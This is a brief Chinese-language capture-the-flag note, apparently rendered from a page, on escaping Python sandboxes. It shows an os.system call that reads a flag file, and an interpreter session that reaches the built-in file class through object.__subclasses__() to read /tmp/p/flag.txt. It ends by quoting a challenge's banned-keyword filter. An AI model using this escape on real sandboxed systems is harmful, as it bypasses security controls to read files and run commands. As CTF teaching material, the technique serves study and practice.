 如果沒任何過濾的題目，可以直接 

import os
os.system(' cat flag ') 

有過濾下，可以利用 file object 去讀檔案

```
In [1]: ().__class__
Out[1]: tuple

In [2]: ().__class__.__bases__
Out[2]: (object,)

In [3]: ().__class__.__bases__[0]
Out[3]: object

n [4]: ().__class__.__bases__[0].__subclasses__()
Out[4]: 
[type,
 weakref,
 weakcallableproxy,
 weakproxy,
 int,
 basestring,
 bytearray,
 list,
 NoneType,
 NotImplementedType,
 traceback,
 super,
 xrange,
....
....

In [5]: ().__class__.__bases__[0].__subclasses__()[40]
Out[5]: file

## file 在第 40 個

In [8]: ().__class__.__bases__[0].__subclasses__()[40]('/tmp/p/flag.txt','r').read()
Out[8]: 'The flag is i_l0ve_marS'
```


延伸學習~~ ，底下是網路上找到的不知是哪裡的題目，不會返回指令的結果

```python
#!/usr/bin/env python
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [ 
"import", 
"exec", 
"eval", 
"pickle", 
"os", 
"subprocess", 
"kevin sucks", 
"input", 
"banned", 
"cry sum more", 
"sys"
] 

```